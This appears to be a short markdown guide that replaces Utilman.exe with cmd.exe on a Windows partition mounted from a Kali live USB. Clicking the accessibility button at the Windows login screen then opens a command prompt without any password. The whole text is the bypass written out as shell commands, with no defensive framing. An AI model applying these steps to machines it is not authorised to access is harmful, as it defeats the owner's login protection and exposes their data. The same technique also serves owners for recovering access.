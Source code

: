 ### Boot kali from usb stick
```
mkdir /mnt/windows
```

### Mount windows partition
```
mount /dev/<windowsPartition> /mnt/windows
```

### If error occurs while mounting (Windows is hibernated, refuse to mount)
```
umount /dev/<windowsPartition>
mount -t ntfs-3g -o remove_hiberfile /dev/<windowsPartition> /mnt/windows
cd /mnt/windows/Windows/System32
```

### Create backup
```
cp Utilman.exe backup.exe
```

### Replace utilman with cmd
```
cp cmd.exe Utilman.exe
```

### Umount
```
umount -R /mnt
```

### Shut down kali and boot windows system ->  click "Utilman"

